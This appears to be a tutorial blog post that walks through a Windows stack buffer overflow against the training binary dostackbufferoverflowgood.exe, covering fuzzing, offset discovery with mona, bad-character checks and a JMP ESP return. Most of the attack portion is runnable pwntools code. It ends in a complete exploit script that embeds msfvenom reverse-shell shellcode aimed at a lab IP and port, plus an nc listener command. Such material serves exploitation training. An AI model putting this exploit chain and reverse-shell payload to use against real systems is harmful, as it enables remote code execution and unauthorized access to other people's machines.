


## How the memory is organised?



The memory is orgainsed in the way kernel at top and text is at bottom. Since it is stack bufferoverflow we are concentrating on stack.

<!--more-->
## How the stack bufferoverflow works?



To make things clear from the above picture the stack is organised like

ESP ---> Buffer space ---> EBP ---> EIP ---> PTR to arg

ESP is the current stack pointer. EBP is the base pointer for the current stack frame.

When you call a function, typically space is reserved on the stack for local variables. This space is usually referenced via EBP (all local variables and function parameters are a known constant offset from this register for the duration of the function call.) ESP, on the other hand, will change during the function call as other functions are called, or as temporary stack space is used for partial operation results.

In stack bufferoverflow, we are going to overflow the buffer space such that it overflow to EBP and to EIP. And finally we will find the exact offset to control EIP to inject our malcious shell code.

To demonstrate binary used is dostackbufferoverflowgood.exe

## Steps to be followed for smashing stack bufferoverflow

Fuzzing --> finding offset --> Finding bad character --> Controlling EIP --> Generating shell code

#### Step 1: Fuzzing

In this step, we just need to find the buffer length or offset which crash the application and overwrite the EIP.

```python
from pwn import *
p = connect('192.168.1.8', 31337, level='error')
p.sendline('A'*1000)
p.recvline()
p.close()
```

#### Step 2: Finding the exact offset

Add working folder in mona:

`!mona config -set workingfolder C:\logs\%p`

In immunity debugger,

`!mona pc 1000` --> This will create a pattern of 1000 bytes

> **Tip:** Also remember sometimes pattern shown in the immunity debugger console may be truncated. So always copy from the log


Modify the python code
```python
from pwn import *
pattern = "" # update the pattern here that you got from mona
p = connect('192.168.1.8', 31337, level='error')
p.sendline(pattern)
p.recvline()
p.close()
```

After executing the python script take the EIP value and execute the following command to find the exact offset:

`!mona findmsp <EIP VALUE>` (or)
`!mona pattern_offset <EIP VALUE>`


#### Step 3: Finding bad characters

To find badcharacter, first we need to create bytearray.

`!mona bytearray` --> This will generate the byte array starting from \x00 to \xff

Modify the python code 

```python
from pwn import *

offset = "A"*<offset_value> # Replace the <offset_value> with the offset value that we obtained from Step 2
bytearray = "" # update the bytearray here that you got from mona
p = connect('192.168.1.8', 31337, level='error')
p.sendline(offset + 'BBBB' + bytearray)
p.recvline()
p.close()
```

Execute the python script

Compare the generated bytearray and bytearray after the BBBB end in the exe file using mona.

!mona compare -f C:\logs\dobufferoverflowgood\bytearray.bin -a <address_after_BBBB>

Now this will display the badcharacter.

> **TIP**: \x00 will always be the bad character. Some times if the program requires some special character like new-line feed('\n'), then the corresponding hex value will also be added to the badcharacter list.

#### Step 4: "RET to JMP ESP"

This step is important to control the flow of the program. We need to find the `JMP ESP ` statement in the program and also its address should not contain the bad characters.

`!mona jmp -r esp -cpb "\x00\x0A" ` (or)

`msf-nasm_shell` and find the hex value of `JMP ESP` which is `\xff\xe4`

Then execute the command
`!mona find "\xff\xe4" -m <your.exe>`

Add the value in little endianess format to the python program .


#### Step 5: Generating the shell code

This is the final step. Use msfvenom to generate shell code.

`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -f c -a x86 -b "\x00\x0A"`

So our final python program look like this

```python
from pwn import *

#offset = 146
#badchar = \x00\x0a
#jmpesp = 080414c3
nops = "\x90"
offset = "A"*146

shellcode = (
"\xba\x84\xf5\xee\x0c\xda\xd9\xd9\x74\x24\xf4\x5f\x29\xc9\xb1"
"\x52\x83\xc7\x04\x31\x57\x0e\x03\xd3\xfb\x0c\xf9\x27\xeb\x53"
"\x02\xd7\xec\x33\x8a\x32\xdd\x73\xe8\x37\x4e\x44\x7a\x15\x63"
"\x2f\x2e\x8d\xf0\x5d\xe7\xa2\xb1\xe8\xd1\x8d\x42\x40\x21\x8c"
"\xc0\x9b\x76\x6e\xf8\x53\x8b\x6f\x3d\x89\x66\x3d\x96\xc5\xd5"
"\xd1\x93\x90\xe5\x5a\xef\x35\x6e\xbf\xb8\x34\x5f\x6e\xb2\x6e"
"\x7f\x91\x17\x1b\x36\x89\x74\x26\x80\x22\x4e\xdc\x13\xe2\x9e"
"\x1d\xbf\xcb\x2e\xec\xc1\x0c\x88\x0f\xb4\x64\xea\xb2\xcf\xb3"
"\x90\x68\x45\x27\x32\xfa\xfd\x83\xc2\x2f\x9b\x40\xc8\x84\xef"
"\x0e\xcd\x1b\x23\x25\xe9\x90\xc2\xe9\x7b\xe2\xe0\x2d\x27\xb0"
"\x89\x74\x8d\x17\xb5\x66\x6e\xc7\x13\xed\x83\x1c\x2e\xac\xcb"
"\xd1\x03\x4e\x0c\x7e\x13\x3d\x3e\x21\x8f\xa9\x72\xaa\x09\x2e"
"\x74\x81\xee\xa0\x8b\x2a\x0f\xe9\x4f\x7e\x5f\x81\x66\xff\x34"
"\x51\x86\x2a\x9a\x01\x28\x85\x5b\xf1\x88\x75\x34\x1b\x07\xa9"
"\x24\x24\xcd\xc2\xcf\xdf\x86\x2c\xa7\xde\x50\xc5\xba\xe0\x4d"
"\x49\x32\x06\x07\x61\x12\x91\xb0\x18\x3f\x69\x20\xe4\x95\x14"
"\x62\x6e\x1a\xe9\x2d\x87\x57\xf9\xda\x67\x22\xa3\x4d\x77\x98"
"\xcb\x12\xea\x47\x0b\x5c\x17\xd0\x5c\x09\xe9\x29\x08\xa7\x50"
"\x80\x2e\x3a\x04\xeb\xea\xe1\xf5\xf2\xf3\x64\x41\xd1\xe3\xb0"
"\x4a\x5d\x57\x6d\x1d\x0b\x01\xcb\xf7\xfd\xfb\x85\xa4\x57\x6b"
"\x53\x87\x67\xed\x5c\xc2\x11\x11\xec\xbb\x67\x2e\xc1\x2b\x60"
"\x57\x3f\xcc\x8f\x82\xfb\xec\x6d\x06\xf6\x84\x2b\xc3\xbb\xc8"
"\xcb\x3e\xff\xf4\x4f\xca\x80\x02\x4f\xbf\x85\x4f\xd7\x2c\xf4"
"\xc0\xb2\x52\xab\xe1\x96"
)
p = connect('192.168.1.8', 31337, level='error')
p.sendline(offset + '\xc3\x14\x04\x08' + nops*20 + shellcode)
p.recvline()

#print('Byte sent ',length)
p.close()
```

Spawn a listner to get shell of the victim machine

`nc -nlvp 4444`


